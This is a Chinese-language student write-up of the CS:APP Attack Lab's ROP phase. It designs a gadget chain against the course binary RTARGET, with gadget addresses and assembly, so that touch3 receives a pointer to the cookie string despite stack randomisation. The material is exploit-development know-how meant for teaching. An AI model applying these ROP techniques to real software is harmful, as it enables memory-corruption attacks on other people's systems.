 

### Level 3

#### 任务

"Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie."



#### 解题过程

**思路：**

- **利用缓冲区溢出修改 getbuf 的返回地址为 gadget1 的地址，并且存入其他 gadget 返回地址、cookie 字符串表示、touch3 地址，在 gadget 程序链中利用 popq 和 retq 获取到**

- **程序链的总体执行效果：将指向 cookie 字符串（需要以0结尾）的指针传入 %rdi 作为参数，最后一个 gadget 的 ret 跳转到 touch3**
- **采用 phase3 的方法二，将 cookie 字符串存放在安全的位置**

存在一个问题：如何找到 cookie 字符串表示的地址？

解决思路：由于栈随机化，只可能通过 %rsp 获取到地址。首先想到，将 %rsp（指向字符串） 保存到另一个寄存器后，再弹出地址，但在 farm 中没有 89 e. 5. （mov, popq）的序列。因此只能将 cookie 存放在 stack 最上面，使用偏移量计算得到其地址，额外需要一条 lea 指令。偏移量则通过缓冲区溢出存储到 stack 上，利用 popq 弹出到某一个寄存器上。

farm 中刚好存在包含一条合适的 lea 指令的函数，确定其作为一个 gadget。

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq
```

gadget 可以设计为：

```assembly
# %rsp(寻找cookie字符串的基地址) -> %rdi
0x401a06 <gadget1>:
:	48 89 e0				movq	%rsp,%rax	# 不能使用 movl，因为地址高四字节不为0
:	c3						ret
0x4019a2 <gadget2>:
:	48 89 c7				movq	%rax,%rdi
:	c3						ret

# 偏移量 offset -> %rsi
0x4019cc <gadget3>:
:	58						popq	%rax
:	90						nop
:	c3						ret
0x4019dd <gadget4>:
:	89 c2					movl	%eax,%edx
:	90						nop
:	c3						ret
0x401a34 <gadget5>:
:	89 d1					movl	%edx,%ecx
:	38 c9					cmpb	%cl,%cl
:	c3						ret
0x401a13 <gadget6>:
:	89 ce					movl	%ecx,%esi
:	90						nop
:	90						nop
:	c3						ret

/* 
 * 分析：在此之前，%rsi 和 %rdi 分别保存了某一阶段的 %rsp （mov）和 offset（pop） 
 * 有两种可能的情况：
 * case1: %rsp -> %rdi, offset -> %rsi
 * case2: %rsp -> %rsi, offset -> %rdi（行不通）
 */
```
